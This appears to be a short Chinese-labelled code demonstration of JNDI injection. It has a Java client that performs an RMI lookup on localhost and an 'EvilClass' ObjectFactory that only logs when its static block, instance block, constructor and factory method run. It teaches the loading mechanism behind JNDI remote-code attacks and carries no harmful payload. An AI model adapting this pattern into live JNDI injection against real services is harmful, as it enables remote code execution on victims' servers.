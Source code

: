 客户端

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.directory.*;
import java.util.Hashtable;

public class JNDILookup {
    public static void main(String[] args) {
        try {
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

恶意类

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
}
```
